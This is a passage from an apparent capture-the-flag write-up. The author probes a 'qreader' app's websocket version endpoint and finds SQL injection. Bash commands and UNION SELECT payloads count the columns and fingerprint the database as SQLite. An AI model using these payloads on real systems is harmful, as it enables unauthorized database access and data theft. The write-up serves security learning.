 The source code has one function called _version_ that sends the installed version to a websocket endpoint at `/version`{:.filepath} on port 5789.

### WebSockets

Let's try replicating the version message in `qreader.py`{:.filepath} using [this simple websocket client](https://github.com/bryanmcnulty/ctf-scripts/blob/main/web/wscurl.py).

```bash
# bryan@red_team (bash)
send() {
  json=$(echo {} | jq --arg _ "$1" '.version=$_')
  wscurl $rhost:5789/version -d "$json"
}
send "0.0.2" # It works!
send "0.0.1" # This returns a different response
send "_" # Got "Invalid version!"
```
{:.nolineno}

It seems like the backend is processing the version then returning a set of values related to that particular version (if valid).
There are a number of ways this could be done, but it's likely the work of SQL queries.
With this in mind, let's try sending some SQL injection payloads that could break an insecure implementation.

```bash
# bryan@red_team (bash)
send "'" # Message: "Invalid version!"
send '"' # Blank response... Internal error?
send '0.0.2"--' # SQL Injection! (probably)
```
{:.nolineno}

Sending a double quote results in an unexpected blank response, so we check if an SQL comment would negate this and it sure does!
This is a classic indication of an SQL injection vulnerability.

### SQL Injection

We'll try extracting some database information on that injection point using a **UNION SELECT** statement. We can assume that the number of columns is at least three or four based on the number of JSON keys returned given a valid version.

```bash
# bryan@red_team (bash)
send '" UNION SELECT 1337,NULL,NULL,NULL--' # Confirmed 4 columns
send '" UNION SELECT 0,@@version,0,0--' # Error. Probably not MySQL...
send '" UNION SELECT 0,version(),0,0--' # Error. Probably not PostgreSQL...
send '" UNION SELECT 0,sqlite_version(),0,0--' # Sqlite is a match!
```
{:.nolineno}

We are able to determine that the backend is **SQLite 3.37.2**. Now that we know this, we can easily extract the database schema from the *sqlite_schema* table.
